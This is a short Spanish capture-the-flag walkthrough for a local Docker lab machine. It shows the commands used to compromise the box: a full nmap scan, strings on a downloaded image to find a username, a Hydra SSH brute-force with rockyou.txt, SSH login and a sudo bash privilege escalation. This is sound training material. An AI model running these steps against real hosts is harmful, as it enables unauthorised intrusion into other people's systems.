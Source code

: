 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250131105151](https://github.com/user-attachments/assets/50022a2a-e297-43b8-8ac5-4b5ca4cf54ce)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131105319](https://github.com/user-attachments/assets/f10ac716-bf21-47c1-a98e-3b38347f9d98)

Nos metemos en la web:

![Pasted image 20250131105920](https://github.com/user-attachments/assets/9ef2f896-96a2-465b-a5f5-529637ebe513)

Descargamos imagen:

![Pasted image 20250131105905](https://github.com/user-attachments/assets/ae68660e-b295-43a5-af07-7ebf96f30aa8)

Buscamos cadenas con **strings**:

```
strings imagen.jpeg
```

![Pasted image 20250131110034](https://github.com/user-attachments/assets/62b4d00f-f367-4fee-bbc4-faebc98148e4)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Pasted image 20250131110218](https://github.com/user-attachments/assets/a3085079-db67-44b2-93ba-35095317bdb2)

Nos conectamos con **SSH**:

```
ssh borazuwarah@172.17.0.2
```

![Pasted image 20250131110247](https://github.com/user-attachments/assets/c124d279-b88a-42fc-af1a-4519b6b4e1a0)

Elevamos privilegios:

```
sudo -l
```

![Pasted image 20250131110321](https://github.com/user-attachments/assets/04112533-bb39-4bcd-b103-b5e6e6e37755)

```
sudo bash
```

![Pasted image 20250131110401](https://github.com/user-attachments/assets/9d23bfaa-e543-4801-9c9e-8008133ec2e9)

```
whoami
```

![Pasted image 20250131110425](https://github.com/user-attachments/assets/939f5a9f-758b-4d8a-8286-d95941210248)
